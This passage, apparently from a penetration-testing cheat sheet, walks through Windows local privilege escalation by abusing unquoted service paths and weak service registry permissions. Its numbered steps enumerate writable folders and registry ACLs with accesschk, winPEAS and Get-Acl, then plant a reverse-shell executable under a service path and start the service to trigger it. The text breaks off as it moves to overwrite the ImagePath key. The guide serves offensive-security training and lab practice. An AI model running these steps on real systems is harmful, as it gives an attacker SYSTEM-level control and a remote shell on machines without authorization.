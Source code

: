     ```
    > sc qc <unquoted_service_name>
    ```
4.  To check for write rights, use accesschk.exe:

    ```
    > .\accesschk.exe /accepteula -uwdq C:\
    > .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
    > .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
    ```
5.  Copy the reverse shell executable and rename it appropriately:

    ```
    > copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
    ```
6.  Start a listener on our host (e.g Kali or Parrot), and then start the service to trigger the exploit:

    ```
    > net start <service_name>
    ```

**Valid executable path Discovery:**

```
wmic service get displayname, pathname
```

**Move the malicious executable:**

```
move filename.exe "c:\program files\service\filename.exe"
```

**Restart the service or the machine.**

### Weak Registry Permissions

Each service has its own entry in the Windows registry. Because registry entries might have ACLs, if the ACL is misconfigured, we could be able to change the configuration of some services even though we can't change the service directly.

#### Weak Registry Permissions Privilege Escalation

1.  To check for service misconfigurations, run winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  Check if a service has a weak registry entry. We can confirm this with the Get-Acl cmdlet:

    ```
    PS> Get-Acl HKLM:\System\CurrentControlSet\Services\service_name | Format-List
    ```
3.  Alternatively, we can use accesschk.exe to confirm this:

    ```
    > .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\service_name
    ```
4.  Try to overwrite the ImagePath registry key to point to our reverse shell executable:
